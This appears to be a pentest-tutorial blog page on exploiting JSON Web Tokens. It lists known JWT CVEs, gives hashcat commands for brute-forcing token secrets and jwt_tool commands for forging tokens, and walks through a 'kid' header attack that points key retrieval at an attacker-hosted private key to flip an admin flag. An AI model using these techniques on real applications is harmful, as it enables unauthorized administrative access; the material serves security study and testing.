 [back](/)

### JSON Web Tokens exploitation

What JSON Web Token (JWT) is? It is an open standard RFC 7519 for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. 
JSON signature algorithms are used to secure the transmission of such information. For more information about JWT read: jwt.io. 

The JWT is divided into three sections, separated by a dot: **HEADER.PAYLOAD.SIGNATURE**

To work with the JWT, [jwt_tool](https://github.com/ticarpi/jwt_tool) utility is best suited, which will allow exploiting the most popular vulnerabilities:

```
(CVE-2015-2951) The alg=none signature-bypass vulnerability
(CVE-2016-10555) The RS/HS256 public key mismatch vulnerability
(CVE-2018-0114) Key injection vulnerability
(CVE-2019-20933/CVE-2020-28637) Blank password vulnerability
(CVE-2020-28042) Null signature vulnerability
```

In case there are no vulnerabilities, you can try to guess or brute the JWT encryption password and try to collect a new key with changed values. For example, set the flag **"is_admin":"true"** or something similar. In order to generate the appropriate JWT, that will be suitable for the application, a secret key is required.

To brute force a JWT using a dictionary:

```
hashcat -a 0 -m 16500 jwthash.txt wordlist.txt
```

![Image](/img/jwt/1.png)

For parse JWT you can use [jwt.io](https://jwt.io/) site or the [jwt_tool](https://github.com/ticarpi/jwt_tool) utility:

![Image](/img/jwt/2.png)

![Image](/img/jwt/2.5.png)

To generate JWT:

```
python3 jwt_tool.py -b -S hs256 -p 'keypass' $(echo -n '{"typ":"JWT","alg":"HS256"}' | base64).$(echo -n '{"data": {"username": "jaki"}}' | base64 -w0).
```

An example of an attack on a JWT, where the HEADER section uses reading the private key, to decrypt the token:

```
HEADER:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key" --- change to attacker ip
}

PAYLOAD

{
  "username": "root",
  "email": "1@test.ru",
  "admin_cap": false --- change on true 
}
```

In this example, the attacker can try to replace the ip-address with his own, having previously created a pair of keys:

```
ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
```

Initially, access to the admin panel is closed due to the set flag, in PAYLOAD: "admin_cap": false.

![Image](/img/jwt/3.png)

There are two ways to encrypt a JWT with the "admin_cap": true flag and the "kid" HEADER key:

1. Using the site https://jwt.io/
2. Or using jwt_tool.py

```
python3 jwt_tool.py CURRENT_JWT -T -S rs256 -pr /tmp/keys/privKey.key
```

![Image](/img/jwt/4.png)

![Image](/img/jwt/4.5.png)

Before sending the JWT application, you need to start the http server to access the private key:

![Image](/img/jwt/5.png)

The attacker gained access to the admin panel

![Image](/img/jwt/6.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)